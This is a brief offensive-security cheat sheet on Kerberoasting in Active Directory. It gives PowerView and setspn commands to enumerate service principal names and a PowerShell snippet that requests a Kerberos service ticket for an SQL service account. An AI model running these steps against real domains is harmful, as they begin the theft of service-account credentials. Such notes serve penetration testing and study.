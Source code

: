 # Kerberoast

## Find SPN

### Powerview

```text
. .\powerview.ps1
Get-NetUser -SPN
```

### Powershell

```text
setspn -T domain -Q Service/*
```

## Request a TGS

```text
Add-Type -AssemblyName system.identitymodel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/lab.domain.local"
```


